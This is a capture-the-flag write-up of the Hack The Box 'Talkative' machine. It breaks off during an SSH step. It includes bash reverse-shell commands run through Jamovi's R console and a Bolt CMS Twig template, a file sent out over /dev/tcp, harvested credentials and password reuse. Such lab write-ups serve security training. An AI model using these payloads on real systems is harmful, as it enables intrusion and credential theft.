- Machine : https://app.hackthebox.com/machines/Talkative
- Reference : https://0xdf.gitlab.io/2022/08/27/htb-talkative.html
- Solved : 2025.3.13. (Thu) (Takes 1days)

## Summary
---


### Key Techniques:


---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/talkative]
└─$ /opt/custom-scripts/port-scan.sh 10.10.11.155
[*] Performing quick TCP port scan on 10.10.11.155...
[*] Performing quick UDP port scan on 10.10.11.155 (top 1000 UDP ports)...
[+] Found open TCP ports: 22,80,3000,8080,8081,8082
[*] Performing detailed TCP scan on 10.10.11.155...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 06:17 MDT
Nmap scan report for 10.10.11.155
Host is up (0.39s latency).

PORT     STATE    SERVICE VERSION
22/tcp   filtered ssh
80/tcp   open     http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Debian)
|_http-title: Did not follow redirect to http://talkative.htb
3000/tcp open     ppp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     X-XSS-Protection: 1
|     X-Instance-ID: 8pKpmKyRw56Ayxf6E
|     Content-Type: text/html; charset=utf-8
|     Vary: Accept-Encoding
|     Date: Thu, 13 Mar 2025 12:18:12 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <link rel="stylesheet" type="text/css" class="__meteor-css__" href="/3ab95015403368c507c78b4228d38a494ef33a08.css?meteor_css_resource=true">
|     <meta charset="utf-8" />
|     <meta http-equiv="content-type" content="text/html; charset=utf-8" />
|     <meta http-equiv="expires" content="-1" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <meta name="fragment" content="!" />
|     <meta name="distribution" content="global" />
|     <meta name="rating" content="general" />
|     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no" />
|     <meta name="mobile-web-app-capable" content="yes" />
|     <meta name="apple-mobile-web-app-capable" conten
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     X-XSS-Protection: 1
|     X-Instance-ID: 8pKpmKyRw56Ayxf6E
|     Content-Type: text/html; charset=utf-8
|     Vary: Accept-Encoding
|     Date: Thu, 13 Mar 2025 12:18:13 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <link rel="stylesheet" type="text/css" class="__meteor-css__" href="/3ab95015403368c507c78b4228d38a494ef33a08.css?meteor_css_resource=true">
|     <meta charset="utf-8" />
|     <meta http-equiv="content-type" content="text/html; charset=utf-8" />
|     <meta http-equiv="expires" content="-1" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <meta name="fragment" content="!" />
|     <meta name="distribution" content="global" />
|     <meta name="rating" content="general" />
|     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no" />
|     <meta name="mobile-web-app-capable" content="yes" />
|     <meta name="apple-mobile-web-app-capable" conten
|   Help, NCP: 
|_    HTTP/1.1 400 Bad Request
8080/tcp open     http    Tornado httpd 5.0
|_http-title: jamovi
|_http-server-header: TornadoServer/5.0
8081/tcp open     http    Tornado httpd 5.0
|_http-title: 404: Not Found
|_http-server-header: TornadoServer/5.0
8082/tcp open     http    Tornado httpd 5.0
|_http-title: 404: Not Found
|_http-server-header: TornadoServer/5.0
```

### http(80)




There’s a few interesting bits on this page. The “Our People” section has three people with pictures and info. Each has a link to read more about them at `http://talkative.htb/person/janit-smith`, on each page gives their email addresses:

- Janit Smith (CFO) - `janit@talkative.htb`
- Matt Williams (Chief Marketing Officer / Head of Design) - `matt@talkative.htb`
- Saul Goodman (CEO) - `saul@talkative.htb`



The “Products” section shows three products. 
The references to other technologies are worth noting here. 



“Talk-A-Stats” mentions [Jamovi](https://www.jamovi.org/). 


The “Talkforbiz” product mentions [Rocket Chat](https://www.rocket.chat/).



At the bottom of the page, there’s a feedback form which includes another email address, `support@talkative.htb`. Submitting that form returns an error:

"This form doesn't work. Please install **bolt**/forms, or implement your own solution."
This is a good hint that [Bolt CMS](https://boltcms.io/) is in use on the site.



Given the response header, the server is Apache, and there’s PHP running the **Bolt CMS**.
The API URL is interesting, but that endpoint doesn’t give anything of interest.

### http(3000) - RocketChat



While the previous RocketChat from [Paper](obsidian://open?vault=Hack-The-Box-Machines&file=Linux%2FPaper%2FPAPER) doesn't have "Register" button, it has.
Let's add a new account.



However, there's nothing useful in the chats.

### http(8080) - JAMOVI



There's a comment from "jamovi team" that there's a security issue with current version.
On its right panel, I can find its version : 0.9.5.5


# Shell as `root` on Jamovi Container

### CVE-2021-28079 (Failed)

Taken the given comment as a hint, I googled for possible exploits.

The first thing I found was XSS vulnerability :
https://github.com/g33xter/CVE-2021-28079

It requires `omv` file to be modified, but I couldn't find any file on the server.

### R Command Execution

Instead, what draws my attention was "R" at the top menu.

I found a manual to execute commands on "R" :
https://stat.ethz.ch/R-manual/R-devel/library/base/html/system.html

According to the reference, I can invoke OS command with the following command :

```R
system("os_command", intern=True)
```

I put commands on the input, and "ctrl + shift + enter" to run it.



To open a reverse shell, I tried the following command but it was not working.

```bash
system("bash -i >& /dev/tcp/10.10.14.7/9000 0>&1", intern=TRUE);
```

Instead, I wrapped the command with another `bash -c` command, and it worked.

```bash
system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/9000 0>&1'", intern=TRUE);
```

Then I can open a reverse shell.

```bash
┌──(kali㉿kali)-[~/htb/talkative]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.155] 58328
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@b06821bbda78:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```


# Shell as `www-data` on Bolt Container

### Enumeration

Given the system output, the obtained shell clearly looks like a docker container.

```bash
root@b06821bbda78:~# hostname
hostname
b06821bbda78

root@b06821bbda78:~# ip addr
ip addr
bash: ip: command not found

root@b06821bbda78:~# ifconfig
ifconfig
bash: ifconfig: command not found

root@b06821bbda78:~# cat /proc/net/fib_trie
cat /proc/net/fib_trie
Main:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.18.0.0/16 2 0 2
        +-- 172.18.0.0/30 2 0 2
           |-- 172.18.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.18.0.2
              /32 host LOCAL
        |-- 172.18.255.255
           /32 link BROADCAST
```

The IP is 172.18.0.2, and there's very limited tools installed. The process list shows only jamovi stuff.

```bash
root@b06821bbda78:~# ps auxww
ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 101704  6048 ?        Ss   04:58   0:00 /bin/bash /usr/bin/jamovi-server 41337 --if=*
root          11  0.1  3.1 866160 63168 ?        Sl   04:58   0:08 python3 -u -m jamovi.server 41337 --if=*
root          28  0.0  5.4 786600 108680 ?       Sl   05:05   0:03 /usr/lib/jamovi/bin/jamovi-engine --con=ipc:///tmp/tmpbes1_ypx/conn-0 --path=/tmp/tmpdxdtpz45
root          30  0.0  2.9 255852 59340 ?        Sl   05:05   0:01 /usr/lib/jamovi/bin/jamovi-engine --con=ipc:///tmp/tmpbes1_ypx/conn-1 --path=/tmp/tmpdxdtpz45
root          32  0.0  2.9 255852 59480 ?        Sl   05:05   0:01 /usr/lib/jamovi/bin/jamovi-engine --con=ipc:///tmp/tmpbes1_ypx/conn-2 --path=/tmp/tmpdxdtpz45
root          64  0.0  0.2  90072  5996 ?        S    06:08   0:00 sh -c bash -c 'bash -i >& /dev/tcp/10.10.14.7/9000 0>&1'
root          65  0.0  0.3 101704  7264 ?        S    06:08   0:00 bash -c bash -i >& /dev/tcp/10.10.14.7/9000 0>&1
root          66  0.0  0.3 101880  7748 ?        S    06:08   0:00 bash -i
root          88  0.0  0.3 115908  7188 ?        R    06:16   0:00 ps auxww
```

There are some interesting files on `/root` directory, so let's move it.

```bash
root@b06821bbda78:~# ls -al
ls -al
total 32
drwx------ 1 root root 4096 Mar 14 06:10 .
drwxr-xr-x 1 root root 4096 Mar  7  2022 ..
lrwxrwxrwx 1 root root    9 Mar  7  2022 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x 3 root root 4096 Mar 14 05:05 .jamovi
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 2 root root 4096 Aug 15  2021 Documents
-rw-r--r-- 1 root root 2192 Aug 15  2021 bolt-administration.omv
-rw-r--r-- 1 root root   92 Mar 14 06:10 typescript


root@b06821bbda78:~# cat bolt-administration.omv > /dev/tcp/10.10.14.7/5736
cat bolt-administration.omv > /dev/tcp/10.10.14.7/5736


root@b06821bbda78:~# md5sum bolt-administration.omv
md5sum bolt-administration.omv
89a471297760280c51d7a48246f95628  bolt-administration.omv
```

Now I have `omv` file that I looked for.
Given its name `bolt-administration`, I guess that this includes some credential information.

### omv File

`.omv` files are documents from jamovi, but they are also just Zip archives like `docx`, `xlsx` files.

```bash
┌──(kali㉿kali)-[~/htb/talkative/bolt-administration]
└─$ unzip bolt-administration.omv 
Archive:  bolt-administration.omv
  inflating: META-INF/MANIFEST.MF    
  inflating: meta                    
  inflating: index.html              
  inflating: metadata.json           
  inflating: xdata.json              
  inflating: data.bin                
  inflating: 01 empty/analysis       
                                                                             
┌──(kali㉿kali)-[~/htb/talkative/bolt-administration]
└─$ ls
'01 empty'                 data.bin     meta            META-INF
 bolt-administration.omv   index.html   metadata.json   xdata.json
                                                                             
┌──(kali㉿kali)-[~/htb/talkative/bolt-administration]
└─$ tree
.
├── 01 empty
│   └── analysis
├── bolt-administration.omv
├── data.bin
├── index.html
├── meta
├── metadata.json
├── META-INF
│   └── MANIFEST.MF
└── xdata.json

3 directories, 8 files
```

`xdata.json` has some interesting data.

```bash
┌──(kali㉿kali)-[~/htb/talkative/bolt-administration]
└─$ tree
.
├── 01 empty
│   └── analysis
├── bolt-administration.omv
├── data.bin
├── index.html
├── meta
├── metadata.json
├── META-INF
│   └── MANIFEST.MF
└── xdata.json

3 directories, 8 files


┌──(kali㉿kali)-[~/htb/talkative/bolt-administration]
└─$ cat xdata.json        
{"A": {"labels": [[0, "Username", "Username", false], [1, "matt@talkative.htb", "matt@talkative.htb", false], [2, "janit@talkative.htb", "janit@talkative.htb", false], [3, "saul@talkative.htb", "saul@talkative.htb", false]]}, "B": {"labels": [[0, "Password", "Password", false], [1, "jeO09ufhWD<s", "jeO09ufhWD<s", false], [2, "bZ89h}V<S_DA", "bZ89h}V<S_DA", false], [3, ")SQWGm>9KHEA", ")SQWGm>9KHEA", false]]}, "C": {"labels": []}}   
```

It has credentials for 3 users.
- `matt@talkative.htb` : `jeO09ufhWD<s`
- `janit@talkative.htb` : `bZ89h}V<S_DA`
- `saul@talkative.htb` : `)SQWGm>9KHEA`

### Sign in on Bolt CMS(80)

As this [reference](https://exploit-notes.hdks.org/exploit/web/cms/bolt-cms-pentesting/), says, the login page for Bolt CMS is on `/bolt`.



I tried to sign-in as `admin` with reusing the found passwords, and `jeO09ufhWD<s` worked with `admin`.



I roamed around the admin panel.
While I found "Upload files" menu, but it doesn't have upload function.



### RCE on Bolt CMS

I found useful [reference](https://angelica.gitbook.io/hacktricks/network-services-pentesting/pentesting-web/bolt-cms), enabling RCE on Bolt CMS admin panel.

First, I need to check current theme.
To do so, click "File management -> Main Configuration".



It shows current theme which is "base-2021".



Then, I focused on "View & Edit templates".



Then, clicked "base-2021" which is current theme. (Found from Configuration -> Main Configuration)



As the reference guided, I put payload on the twig template file.

```
{{['bash -c "bash -i >& /dev/tcp/10.10.14.7/9001 0>&1"']|filter('system')}}
```



After that, I checked "Maintenance -> Clear the cache".



After setting up a listener, I refreshed the main page.
Soon I could get a shell.

```bash
┌──(kali㉿kali)-[~/htb/talkative]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.155] 57688
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell

www-data@2fb70f59ad53:/var/www/talkative.htb/bolt/public$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


# Shell as `saul` on talkative

### Enumeration

This host is also a Docker container. There’s a `.dockerenv` file at the system root. The hostname is ba67799048d7, and the IP is 172.17.0.11:

```bash
www-data@2fb70f59ad53:/$ pwd
pwd
/


www-data@2fb70f59ad53:/$ ls -al
ls -al
total 80
drwxr-xr-x   1 root root 4096 Mar 14 04:58 .
drwxr-xr-x   1 root root 4096 Mar 14 04:58 ..
-rwxr-xr-x   1 root root    0 Mar 14 04:58 .dockerenv
drwxr-xr-x   1 root root 4096 Mar  6  2022 bin
drwxr-xr-x   2 root root 4096 Dec 11  2021 boot
...SNIP...


www-data@2fb70f59ad53:/$ hostname
hostname
2fb70f59ad53


www-data@2fb70f59ad53:/$ cat /proc/net/fib_trie
cat /proc/net/fib_trie
Main:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.17.0.0/16 2 0 2
        +-- 172.17.0.0/28 2 0 2
           |-- 172.17.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.17.0.11
              /32 host LOCAL
        |-- 172.17.255.255
           /32 link BROADCAST
...SNIP...
```

Since the IP address of the docker is 172.17.0.11, it's more likely that the host's IP address is 172.17.0.1.

### SSH

With the assumption that the host is reachable, I checked if several linux commands exist.

```bash
www-data@2fb70f59ad53:/$ ping 172.17.0.1 -c 2
ping 172.17.0.1 -c 2
bash: ping: command not found


www-data@2fb70f59ad53:/$ nc -h    
nc -h
bash: nc: command not found


www-data@2fb70f59ad53:/$ ssh -h
ssh -h
unknown option -- h
usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface]
           [-b bind_address] [-c cipher_spec] [-D [bind_address:]port]
           [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11]
           [-i identity_file] [-J [user@]host[:port]] [-L address]
           [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port]
           [-Q query_option] [-R address] [-S ctl_path] [-W host:port]
           [-w local_tun[:remote_tun]] destination [command]
```

Since `ssh` command exists, I tried to ssh to 172.17.0.1, but it said the terminal is not working.

```bash
www-data@2fb70f59ad53:/$ ssh saul@172.17.0.1
ssh saul@172.17.0.1
Pseudo-terminal will not be allocated because stdin is not a terminal.
Host key verification failed.
```

So I upgraded it to interactive shell.

```bash
www-data@2fb70f59ad53:/$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@2fb70f59ad53:/$ ^Z
zsh: suspended  nc -nlvp 9001


┌──(kali㉿kali)-[~/htb/talkative]
└─$ stty raw -echo; fg
[1]  + continued  nc -nlvp 9001

www-data@2fb70f59ad53:/$ reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@2fb70f59ad53:/$ 
```

Now I was able to use ssh command.
I tried all combinations of the found credentials, and the user `saul` with `matt`'s password(`jeO09ufhWD<s`) worked.

```bash
www-data@2fb70f59ad53:/$ ssh saul@172.17.0.1
The authenticity of host '172.17.0.1 (172.17.0.1)' can't be established.
